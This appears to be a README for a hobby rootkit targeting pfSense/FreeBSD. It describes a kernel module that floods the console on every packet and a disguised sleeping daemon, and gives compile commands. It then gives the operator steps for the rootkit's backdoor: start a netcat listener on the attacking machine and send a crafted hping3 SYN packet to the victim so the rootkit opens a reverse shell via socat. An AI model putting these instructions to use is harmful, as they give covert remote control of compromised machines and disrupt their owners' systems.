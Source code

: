 The "unused" directory holds the c code that compiles binaries.

To compile "apeshit" within pfsense you need to use "clang15 -I/sys -o apeshit apeshit_daemon.c" since stdio.h doesn't k know the path of cdefs.h. 

"apeshit_damon.c" produces "apeshit" which is a binary that creates a daemon that sleeps infinitly and is named apeshit, you can see it with "pgrep -l apeshit".

"brickbox.ko" posts an image and funny message everytime a packet comes in or goes out, this can actually be stopped by running <kldunload brickbox.ko> but who da hell is gonna know dat.  It is completely still possible to run commands but the screen prints really fast so it is hard to see shit.  Inside unused is "make_brick_box_face.c" which has comments at the top for the makefile and creates this bin.

We use socat since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.
Run "nc -lvnp 6969" on the attaking machine before asking for a reverse shell since you need to be listening for it.
To construct a packet that will trigger the packet filtering and send a reverse shell simply run
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
from your host machine targeting the ip of the victim box that has the rootkit, currently any destination port works.
